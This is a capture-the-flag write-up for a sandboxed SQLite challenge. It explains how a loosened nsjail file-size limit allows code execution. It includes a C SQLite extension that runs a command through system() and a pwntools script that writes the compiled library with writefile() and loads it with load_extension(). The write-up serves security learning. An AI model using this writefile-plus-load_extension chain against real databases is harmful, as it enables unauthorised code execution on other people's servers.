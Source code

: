 The first thing I did was to compare the challenge files for the first and second version of the challenge. The only difference I found was in the `nsjail.cfg` file:

```bash
diff notabug/private/nsjail.cfg notabug2/private/nsjail.cfg
53c53
< rlimit_fsize: 32	# max size of files the process may create in MiB
---
> rlimit_fsize: 0		# max size of files the process may create in MiB
```

In notabug version 1, the SQLite process was allowed to create files. This was removed in the second version. With this in mind, me and my fellow friend ChatGPT worked on a solution.

### Loading my own SQLite extension
SQLite has a `load_extension` function which allows to load SQLite extensions at runtime. These extensions are simply shared libraries. Loading an extension can be done with a single prompt:

```sql
SELECT load_extension('/path/to/extension.so');
```

Based on this I tried to create my own SQLite extension to gain code exectution. And it worked ! I could call any command using the `system` function:
```c
#include <sqlite3ext.h>
SQLITE_EXTENSION_INIT1

#include <stdio.h>
#include <stdlib.h>

int sqlite3_extension_init(
  sqlite3 *db,
  char **pzErrMsg,
  const sqlite3_api_routines *pApi
) {
  SQLITE_EXTENSION_INIT2(pApi)
  system("/jailed/readflag");
  return 0;
}
```

What was left now was to find a way to save my malicious library on the challenge server. This is where the different `nsjail.cfg` files come into play. SQLite also has a `writefile` function which allows writing a BLOB to a file:

```sql
SELECT writefile('/path/to/output.file', blob_content);
```

With this I could now easily save my malicious library on the remote server and load it as extension.

### Exploit
```python
io = start(argv, env=env)

with open("lib.so", "rb") as f:
    data = f.read()

data = data.hex()

payload = f"SELECT writefile('/tmp/lib.so', x'{data}');"

io.sendlineafter(">",payload)
io.sendlineafter(">", "SELECT load_extension('/tmp/lib.so');")

io.interactive()
```